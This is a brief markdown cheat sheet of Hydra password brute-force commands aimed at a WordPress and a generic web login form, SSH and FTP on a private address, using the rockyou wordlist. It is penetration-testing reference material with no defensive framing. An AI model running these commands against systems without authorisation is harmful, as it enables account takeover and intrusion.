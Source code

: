 ### Hydra Bruteforcing Commands

#### Post Web Form
```
hydra -l username -P <password_list> 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The passowrd you entered for the username" -t 30

hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```
#### SSH
```
hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ssh 
```
#### FTP
```
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.1
```
